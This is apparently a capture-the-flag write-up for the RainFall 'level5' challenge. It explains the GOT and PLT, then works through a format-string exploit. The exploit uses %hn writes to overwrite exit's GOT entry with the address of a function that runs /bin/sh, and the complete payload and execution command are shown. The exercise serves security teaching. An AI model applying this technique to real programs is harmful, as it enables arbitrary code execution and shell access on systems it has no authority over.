 # Level5
Level5 introduce GOT and PLT (Global Offset Table and Procedure Linkage Table) 

# Tools
**Cutter**: free and open source reverse-engineering software

# GOT/PLT
A little explanation around the Global Offset Table and the Procedure Linkage Table. 

When using dynamic libraries (libraries that aren't directly included in the code of the programme), our computer needs to find the addresses of the different functions.

However, these addresses aren't the same all the time, they often even change at each execution.

Thus, smart programmers have invented the PLT / GOT system. Basically, it's caching for function addresses.

When a programme that uses functions from a dynamic library is compiled, it doesn't know the addresses of the external functions yet.

Thus, it creates a "trampoline" function:
```x86
void exit(int status);
0x080483d0      jmp     dword [exit] ; 0x8049838
0x080483d6      push    0x28       ; '(' ; 40
0x080483db      jmp     section..plt
```
What this code do is pretty simple. Basically, it checks if the address of the function has already been retrieved, and if not, it jumps to a specific section of the code to retrieve it.
So we have two cases:
1. The programme knows what's the REAL address of the function, and calls it
2. The programme doesn't know yte what's the real address of the function, and retrieves it before calling it

The latter uses a very specific funciton, `ld.so`, which is the dynamic linker / loader function. What this function does is that it will retrieve the real address of the function in the dynamic library, and write it inside of a table for easier access (option 1). This table is the Global Offset Table, and the Procedure Linkage Table refers to that process of, if the address of the function isn't found, find it with the `ld.so` system.
Each "trampoline" function is also called a "PLT entry".

# Walkthrough

Upon looking at the code with dogbolt, we see two interesting functions:

```c
int o()
{
    system("/bin/sh");
    _exit(1); /* do not return */
}

void n()
{
    char v0;  // [bp-0x20c]

    fgets(&v0, 0x200, __bss_start);
    printf(&v0);
    exit(1); /* do not return */
}
```

Function `o` is definetely interesting. It's worth noting that both functons to do return anything, and will eventually call the `exit` function from `libc`. 

The `libc` is dynamically linked to the binary, and thus using techniques such as printf buffer manipulation, we can overwrite specific parts of the memory to alter Global Offset Table entries. 

Getting the address of function `o`:
```
objdump -t level5
...
080484a4 g     F .text	0000001e              o
...
```

Getting the address of the `exit` function from `libc`:
```
level5@RainFall:~$ objdump -TR level5
...
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
...
08049838 R_386_JUMP_SLOT   exit
...
```

The value stored by the GOT, value retrieved by the `ld.so` function (dynamic linker / loader).


Find the offset, with trial and error:
```
level5@RainFall:~$ ./level5 <<< $(python -c 'print "AAAA" + "%4$x"')
AAAA41414141
```
Thus, we know that the 4th element is the beginning of the buffer for `printf`.
What we want to do is to overwrite the content inside of `08049838` (exit's address) by `o`'s address, `080484a4`. 

`080484a4` is a 4-bytes value, and it's safer to write it in 2 times instead of printing the 4-bytes directly, as addresses can be misaligned, which would break our exploit.
`0x0804` = `2052`
`0x84a4` = `33956`

Again, because the system is little-endian, which means that the least significant byte of a word is stored at the smallest memory location, we to write `33956` first and then `2052`

The addresses we want to write at are: `08049838` and `0804983a`:
`"\x3a\x98\x04\x08" + "\x38\x98\x04\x08"`
We write `2052` to `0804983a` and `33956` to `08049838`, starting at argument `4` and writing on only 2-bytes at a time `hn`:
`"\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%(2052 - 8)d" + "%4\$hn" + "%(33956 - 2052)d" + "%5\$hn"`
Giving payload:
`"\x3a\x98\x04\x08\x38\x98\x04\x08%2044d%4$hn%31904d%5$hn"`

Execute the attack:
```bash
python -c 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044d%4$hn%31904d%5$hn"' > attack.txt; cat attack.txt - | ./level5
```

# Resources
